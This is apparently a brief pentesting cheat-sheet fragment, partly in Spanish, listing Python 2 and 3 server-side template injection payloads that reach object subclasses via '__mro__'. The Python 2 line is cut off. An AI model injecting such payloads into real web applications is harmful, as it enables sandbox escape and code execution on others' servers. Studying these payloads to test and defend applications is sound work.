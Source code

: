 ### SSTI
```
PYTHON_3
''.__class__
''.__class__.__mro__[1].__subclasses__()
''.__class__.__mro__[1].__subclasses__()[40]
PYTHON_2
''.__class__
''.__class__.__mro__[2
```

**MRO:** Método Orden de Resolución
